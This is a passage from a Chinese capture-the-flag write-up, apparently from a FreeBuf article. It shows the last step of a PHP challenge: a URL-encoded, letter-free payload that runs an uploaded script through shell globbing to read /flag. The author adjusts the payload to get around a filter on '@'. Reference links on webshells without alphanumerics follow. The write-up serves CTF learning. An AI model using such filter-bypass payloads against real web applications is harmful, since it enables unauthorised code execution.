 ```
cat /flag
----------123--
```

本来应该是：

```
?><?=`.+/%3f%3f%3f/%3f%3f%3f%3f%3f%3f%3f%3f[%40-[]`%3b?>
```

但是由于题目过滤了`@`，那么我们可以取`@`之前的一个字符，也就是`?`，即`%3f`：

```
?><?=`.+/%3f%3f%3f/%3f%3f%3f%3f%3f%3f%3f%3f[%3f-[]`%3b?>
```

最终得到 flag：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7HhNpGqdAev92kgR5OIh0HyfhMMAMzibAG2RG9CC5kJm3Dt7vWyMYonGA/640?wx_fmt=jpeg)

参考：

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

https://xz.aliyun.com/t/8107#toc-13

https://xz.aliyun.com/t/7742#toc-8

https://xz.aliyun.com/t/9387

![](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR38Tm7G07JF6t0KtSAuSbyWtgFA8ywcatrPPlURJ9sDvFMNwRT0vpKpQ14qrYwN2eibp43uDENdXxgg/640?wx_fmt=gif)

![](http://mmbiz.qpic.cn/mmbiz_png/3Uce810Z1ibJ71wq8iaokyw684qmZXrhOEkB72dq4AGTwHmHQHAcuZ7DLBvSlxGyEC1U21UMgSKOxDGicUBM7icWHQ/640?wx_fmt=png&wxfrom=200) 交易担保 FreeBuf+ FreeBuf + 小程序：把安全装进口袋 小程序

  

精彩推荐

  

  

  

  

****![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ib2xibAss1xbykgjtgKvut2LUribibnyiaBpicTkS10Asn4m4HgpknoH9icgqE0b0TVSGfGzs0q8sJfWiaFg/640?wx_fmt=jpeg)****

  

[![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR384iaX6B8n12ebKz8LqibnrDQTyFTVGgeUQ20OH45Z1KqtjzL83XLEjDicq9Sbvd5SeXyUbd7iaWFdmHw/640?wx_fmt=jpeg)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247486350&idx=1&sn=ce56524dc187468146dc23a991b0596a&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibQicaAF2AhFiartqpalE3cqyDGxViayXC2U7iaib3VUDur9XiaNHFkYmLr6o1j0HtlL1n8ooT76QfATWhw/640?wx_fmt=jpeg)](http://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247486265&idx=1&sn=8a02ee0c67815bd4aede3515514f1048&chksm=ce1cf1a6f96b78b011faf0c5b9c8461dd78cd918f47ca871588ab87c9cbc5857fc85f32e875d&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR3866DyjmI6hwvyvdAfleLZtAZk8QV44ry1J9MMbZia1iaTIjDQQSXk7PQic85Ww79KxenI7UoQoHxd2A/640?wx_fmt=png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247486247&idx=1&sn=84e65d14aead191568965ca1a836aa44&scene=21#wechat_redirect)

**************![](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR3icF8RMnJbsqatMibR6OicVrUDaz0fyxNtBDpPlLfibJZILzHQcwaKkb4ia57xAShIJfQ54HjOG1oPXBew/640?wx_fmt=gif)**************